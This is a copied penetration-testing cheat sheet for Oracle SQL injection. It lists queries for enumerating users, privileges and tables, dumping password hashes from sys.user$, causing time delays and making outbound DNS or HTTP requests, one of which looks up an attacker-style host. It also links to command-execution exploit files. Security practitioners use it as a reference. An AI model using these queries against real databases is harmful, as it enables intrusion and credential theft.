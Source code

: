 http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet

<table border="1">
<tbody>
<tr>
<td>Version</td>
<td>SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;<br>
SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’;<br>
SELECT version FROM v$instance;</td>
</tr>
<tr>
<td>Comments</td>
<td>SELECT 1 FROM dual — comment<br>
– NB: SELECT statements must have a FROM clause in Oracle so we have to use the dummy table name ‘dual’ when we’re not actually selecting from a table.</td>
</tr>
<tr>
<td>Current User</td>
<td>SELECT user FROM dual</td>
</tr>
<tr>
<td>List Users</td>
<td>SELECT username FROM all_users ORDER BY username;<br>
SELECT name FROM sys.user$; — priv</td>
</tr>
<tr>
<td>List Password Hashes</td>
<td>SELECT name, password, astatus FROM sys.user$ — priv, &lt;= 10g.&nbsp; astatus tells you if acct is locked<br>
SELECT name,spare4 FROM sys.user$ — priv, 11g</td>
</tr>
<tr>
<td>&nbsp;Password Cracker</td>
<td><a href="http://www.red-database-security.com/software/checkpwd.html">checkpwd</a> will crack the DES-based hashes from Oracle 8, 9 and 10.</td>
</tr>
<tr>
<td>List Privileges</td>
<td>SELECT * FROM session_privs; — current privs<br>
SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’; — priv, list a user’s privs<br>
SELECT grantee FROM dba_sys_privs WHERE privilege = ‘SELECT ANY DICTIONARY’; — priv, find users with a particular priv<br>
SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;</td>
</tr>
<tr>
<td>List DBA Accounts</td>
<td>SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’; — priv, list DBAs, DBA roles</td>
</tr>
<tr>
<td>Current Database</td>
<td>SELECT global_name FROM global_name;<br>
SELECT name FROM v$database;<br>
SELECT instance_name FROM v$instance;<br>
SELECT SYS.DATABASE_NAME FROM DUAL;</td>
</tr>
<tr>
<td>List Databases</td>
<td>SELECT DISTINCT owner FROM all_tables; — list schemas (one per user)<br>
– Also query TNS listener for other databases.&nbsp; See <a href="http://www.jammed.com/~jwa/hacks/security/tnscmd/tnscmd-doc.html">tnscmd</a> (services | status).</td>
</tr>
<tr>
<td>List Columns</td>
<td>SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’;<br>
SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’;</td>
</tr>
<tr>
<td>List Tables</td>
<td>SELECT table_name FROM all_tables;<br>
SELECT owner, table_name FROM all_tables;</td>
</tr>
<tr>
<td>Find Tables From Column Name</td>
<td>SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE ‘%PASS%’; — NB: table names are upper case</td>
</tr>
<tr>
<td>Select Nth Row</td>
<td>SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9; — gets 9th row (rows numbered from 1)</td>
</tr>
<tr>
<td>Select Nth Char</td>
<td>SELECT substr(‘abcd’, 3, 1) FROM dual; — gets 3rd character, ‘c’</td>
</tr>
<tr>
<td>Bitwise AND</td>
<td>SELECT bitand(6,2) FROM dual; — returns 2<br>
SELECT bitand(6,1) FROM dual; — returns0</td>
</tr>
<tr>
<td>ASCII Value -&gt; Char</td>
<td>SELECT chr(65) FROM dual; — returns A</td>
</tr>
<tr>
<td>Char -&gt; ASCII Value</td>
<td>SELECT ascii(‘A’) FROM dual; — returns 65</td>
</tr>
<tr>
<td>Casting</td>
<td>SELECT CAST(1 AS char) FROM dual;<br>
SELECT CAST(’1′ AS int) FROM dual;</td>
</tr>
<tr>
<td>String Concatenation</td>
<td>SELECT ‘A’ || ‘B’ FROM dual; — returns AB</td>
</tr>
<tr>
<td>If Statement</td>
<td>BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END; — doesn’t play well with SELECT statements</td>
</tr>
<tr>
<td>Case Statement</td>
<td>SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns 1<br>
SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2</td>
</tr>
<tr>
<td>Avoiding Quotes</td>
<td>SELECT chr(65) || chr(66) FROM dual; — returns AB</td>
</tr>
<tr>
<td>Time Delay</td>
<td>BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can’t seem to embed this in a SELECT<br>
SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — if reverse looks are slow<br>
SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual; — if forward lookups are slow<br>
SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual; — if outbound TCP is filtered / slow<br>
– Also see <a href="http://technet.microsoft.com/en-us/library/cc512676.aspx">Heavy Queries</a> to create a time delay</td>
</tr>
<tr>
<td>Make DNS Requests</td>
<td>SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual;<br>
SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;</td>
</tr>
<tr>
<td>Command Execution</td>
<td><a href="http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql">Java</a>can be used to execute commands if it’s installed.<a href="http://www.0xdeadbeef.info/exploits/raptor_oraextproc.sql">ExtProc</a> can sometimes be used too, though it normally failed for me. <img src="http://pentestmonkey.net/wp-includes/images/smilies/icon_sad.gif" alt=":-(" class="wp-smiley"> </td>
</tr>
<tr>
<td>Local File Access</td>
<td><a href="http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql">UTL_FILE</a> can sometimes be used.&nbsp; Check that the following is non-null:<br>
SELECT value FROM v$parameter2 WHERE name = ‘utl_file_dir’;<a href="http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql">Java</a> can be used to read and write files if it’s installed (it is not available in Oracle Express).</td>
</tr>
<tr>
<td>Hostname, IP Address</td>
<td>SELECT UTL_INADDR.get_host_name FROM dual;<br>
SELECT host_name FROM v$instance;<br>
SELECT UTL_INADDR.get_host_address FROM dual; — gets IP address<br>
SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — gets hostnames</td>
</tr>
<tr>
<td>Location of DB files</td>
<td>SELECT name FROM V$DATAFILE;</td>
</tr>
<tr>
<td>Default/System Databases</td>
<td>SYSTEM<br>
SYSAUX</td>
</tr>
</tbody>
</table>